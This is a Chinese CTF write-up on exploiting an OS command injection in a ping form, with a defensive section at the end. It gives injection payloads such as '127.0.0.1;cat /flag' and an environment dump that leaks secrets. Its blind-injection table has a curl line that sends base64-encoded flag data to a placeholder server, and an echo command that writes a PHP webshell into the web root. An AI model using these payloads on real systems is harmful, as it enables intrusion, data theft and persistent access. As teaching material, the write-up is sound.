


> **CTF Web 学习笔记**（共 19 篇）　[📖 系列总览](/posts/ctf-learning/00-overview/)　·　[← 01 问剑石](/posts/ctf-learning/01-wenjianshi/)　·　[03 七绝傀儡阵 →](/posts/ctf-learning/03-qijue-kuileizhen/)



> **一句话**：一个"游戏延迟体检"页面把用户填的目标地址**直接拼进了 shell 命令**，于是在输入框里写 `127.0.0.1;id`，服务器就把 `id` 执行了。

| 项目 | 内容 |
|---|---|
| 类型 | 命令注入（OS Command Injection）→ 远程代码执行 |
| 难度 | ★★ |
| 前置知识 | 知道什么是 shell、知道 `;` `\|` `&&` 在命令行里的作用 |
| 关键 payload | `127.0.0.1;id` |

---

## ① 一眼看懂

页面是一个"加速器延迟体检"表单：选大区、填目标地址、点「开始体检」，然后输出一段 `ping` 结果。

**漏洞出在"拼命令"上。** 后端（PHP）大概是这么写的：

```php
// ⚠️ 以下为同类漏洞的典型写法（示意，非本题源码 —— 本题源码未公开）
$target = $_POST['target'];
system("ping -c 1 " . $target);
```

`$_POST['target']` **没有做任何转义**就被拼进了命令字符串。于是：

```
127.0.0.1;id
   ↓ 拼接后
ping -c 1 127.0.0.1;id
   ↓ shell 解析
第一条：ping -c 1 127.0.0.1     ← 正常执行
第二条：id                       ← 你注入的命令，也被执行了
```

`;` 在 shell 里的含义是「**前面那条跑完，接着跑后面这条**」，这就是注入点。

**为什么这很严重**：此时你已经能在这台机器上执行任意命令（权限是 `www-data`，即 Web 服务账号）。如果 Web 目录可写、且该目录会执行脚本，还能写一个 webshell 当**长期入口**。

不过要说清楚：**`www-data` 不等于 root，更不等于控制宿主机**。最终能拿到多少东西，取决于该账号权限、容器配置和系统策略 —— 不要被「完全控制服务器」这种说法误导。

---

## ② 思路图



---

## ③ 动手步骤

### 第 1 步：先确认服务器真的在执行命令

在「目标地址」里填：

```
127.0.0.1
```

点「开始体检」。**预期输出**：

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.050 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.050/0.050/0.050/0.000 ms
```

看到这个，说明后端确实调用了系统的 `ping` 命令（而不是用 Python/Go 自己实现的 ICMP）。**命令越"系统"，注入的价值越高。**

### 第 2 步：测注入点

依次试这几种连接符（一步一个，别一次全塞进去）：

| 输入 | 含义 | 实测结果 |
|---|---|---|
| `127.0.0.1;id` | 分号：顺序执行 | ✅ 输出末尾多出 `uid=33(www-data) gid=33(www-data) groups=33(www-data)` |
| `127.0.0.1\|id` | 管道：把前面输出喂给后面 | ✅ 只输出 `uid=33(www-data) ...`（ping 的输出被吃掉了） |
| `127.0.0.1&&id` | 与：前面成功才执行后面 | ✅ 两者输出都有 |
| `` 127.0.0.1`id` `` | 反引号：命令替换 | ⚠️ `id` 的**输出被塞进了 ping 的参数**，报 `ping: groups=33(www-data): Name or service not known` |
| `127.0.0.1$(id)` | 同上，现代写法 | ⚠️ 同上 |

> **怎么判断"到底通没通"**：看输出里**有没有多出一段不属于 ping 的内容**。
> 这一步是整个流程的转折点 —— 从这里开始，你手里就有了服务器的命令行。

### 第 3 步：侦察（先搞清楚我是谁、我在哪、有什么）

```
127.0.0.1;whoami
127.0.0.1;pwd;ls -la
127.0.0.1;ls -la /
```

**实测输出要点**：

```
# whoami
www-data

# ls -la   （网站目录）
-rw-r--r-- 1 root root 4876 index.php

# ls -la /  （根目录）
-rw-r--r-- 1 root root   16 flag        ← 注意这个
drwxr-xr-x 2 root root 4096 .rsltqbgsd2o699gfyehsmmkmvekaaaa9
drwxr-xr-x 1 root root 4096 bin
...
```

**根目录下有个 `flag` 文件**，权限是 `-rw-r--r--`（其他用户可读），当前身份 `www-data` 读得了。

### 第 4 步：别忘了环境变量

```
127.0.0.1;env
```

**实测输出**里有一大堆环境变量，其中：

```
PHP_VERSION=7.2.34
APACHE_CONFDIR=/etc/apache2
HOSTNAME=213e9b69379b
ICQ_FLAG=<这里是一个 flag>
```

**两个收获**：
1. **flag 不止放一个地方** —— 出题人常顺手塞进环境变量
2. `env` 泄露了 PHP 版本、Apache 配置路径、容器主机名 —— 这些在真实渗透里是**下一步攻击的弹药**（比如 PHP 7.2 有已知漏洞）

### 第 5 步：读取 flag

```
127.0.0.1;cat /flag
```

**预期结果**：ping 结果下方直接出现 `flag{...}` 或 `moectf{...}`。

### ⚠️ 本题的坑：输入有长度限制

长度超限时返回：

```
目标地址长度超过限制
```

实测把这条长命令塞进去会被拦：

```
find / -maxdepth 3 -iname '*flag*' 2>/dev/null      ← 被拦
```

**应对策略**：用短命令分步走（`ls /` → `cat /flag`），或者用通配符缩短长度（`cat /fl*`）。

> 顺带纠正一个常见误解：`127.0.0.1;cat /flag` 本身只有 21 个字符，远没到上限 —— **长度限制通常拦不住注入**，它只是限制了单条命令的规模。

### 没有回显时怎么办（盲注思路）

如果页面不回显命令输出，还能用这三招：

| 手法 | 做法 |
|---|---|
| **时间盲注** | `127.0.0.1;sleep 5` —— 页面卡 5 秒就说明命令执行了 |
| **带外通道** | `127.0.0.1;curl http://你的服务器/$(cat /flag \| base64)` —— 把数据发到你自己的机器 |
| **写文件** | `127.0.0.1;echo '<?php system($_GET[1]);?>' > /var/www/html/s.php` |

---

## ④ 原理拆解

「命令注入」指：服务器把你的输入原封不动地拼进一条要在操作系统上执行的命令，而输入里恰好包含命令控制符，于是你追加的命令被一并执行。真正解析并执行这条命令的是 shell——一个负责把命令文本翻译成实际操作的程序，它有自己的语法：`;` 表示上一条命令到此结束、开始下一条；`|` 把前一条命令的输出喂给后一条；`&&` 要求前一条成功才执行后一条；反引号会先执行其中的命令，再把结果替换回原位置。

这个漏洞为什么会存在？本题功能是「ping 一个目标」，在 PHP 里最省事的实现就是把目标地址拼成字符串丢给 shell，典型写法如下（⚠️ 示意代码，非本题源码）：

```php
shell_exec("ping -c 4 " . $_POST['target']);
```

问题就出在「拼接」这个动作上：target 本该是纯数据，但拼接之后，数据和控制符（`;`、`|` 等）混在同一条字符串里，shell 无法区分哪部分是数据、哪部分是语法，于是把所有控制符都当成语法执行了——这就是漏洞的根源。

本题的行为证据恰好逐条印证 shell 语法：填 `127.0.0.1;id` 时输出末尾多出 uid=33(www-data)，证明分号后的 `id` 真被执行；填 `|id` 时只剩 id 的结果，说明 ping 的输出被管道吞掉了；填反引号时 id 的结果被塞进 ping 的参数并报 "Name or service not known"，正是「先执行、再替换回原位」的行为。这三种现象用「普通文本回显」完全解释不通，只能说明：你借走了服务器的 shell。

权限链也值得想通：注入命令由以 www-data 用户身份运行的 Apache/PHP 进程发起，因此继承该用户的权限。`/flag` 的权限 `-rw-r--r--` 表示「属主可读写、其他人只读」，www-data 属于「其他人」，所以 `cat /flag` 能读；ICQ_FLAG 是环境变量（每个进程自带的一组键值对），同样可在 shell 中读取。

最后提醒：输入框的「长度限制」只是长度校验，不是过滤——`;id` 三个字符就够完成注入。本题对各类分隔符和 cat、flag 等关键字均无拦截，属于典型的「只信拼接、不做转义」型命令注入。

---

## ⑤ 延伸与防御

### A. 真实世界对应

这类问题属于 OWASP Top 10 的 **A03:2021 Injection**（注入：把输入误当成指令的一部分执行）。对应 **CWE-78：Improper Neutralization of Special Elements used in an OS Command（操作系统命令中特殊元素未正确转义）**。这里的"命令注入"是指攻击者让服务器额外执行本不该执行的系统命令。

公开案例包括：**2014 年，攻击者利用 GNU Bash 的 Shellshock 漏洞**，把恶意内容放进 HTTP 请求头；部分使用 Bash 处理请求的 CGI 服务因此执行了额外 shell 命令。**2016 年，ImageTragick 事件**中，攻击者利用 ImageMagick 处理恶意图片时的命令注入缺陷，使服务器可能执行攻击者指定的系统命令。两者都说明：只要外部输入进入 shell，图片、请求头等看似普通的数据也可能变成攻击入口。

### B. 同类题变形

1. **分号被过滤**：尝试检查换行、管道或条件连接符等其他 shell 语法；防守方不应逐个补黑名单，而应改用白名单和无 shell API。
2. **页面没有回显**：漏洞仍可能存在，可通过响应状态、时间差、日志或外带 DNS/HTTP 请求判断；防守方应记录失败尝试并限制出站访问。
3. **输入经过 URL 编码或二次解码**：先确认服务器最终收到的值，重点检查"解码后再拼接命令"的位置；防守方应统一在边界解码，并避免重复解码。
4. **危险内容放在 region 或 boost 参数**：不要只保护 target，应对每个进入命令、路径或选项的参数分别验证。
5. **关键字被拦截**：攻击者可能改用环境变量、通配符或其他命令表达式；关键字过滤不是安全边界，应从根本上取消 shell 解释。

### C. 防御写法

错误写法把数据直接拼进 shell：

```php
$result = shell_exec("ping -c 4 " . $_POST['target']);
```

正确写法至少要做严格校验，并把参数作为一个整体转义：

```php
$target = $_POST['target'] ?? '';
if (!filter_var($target, FILTER_VALIDATE_IP)) {
    http_response_code(400);
    exit('invalid target');
}
$result = shell_exec('/bin/ping -c 4 ' . escapeshellarg($target));
```

`filter_var` 是输入格式校验；`escapeshellarg` 会把参数包成安全的单个 shell 参数。但更稳妥的方案是使用支持参数数组的进程库或专用网络 API，完全避免 shell。无论采用哪种方式，都应使用最小权限账户、限制可访问目标，并隐藏详细错误信息。
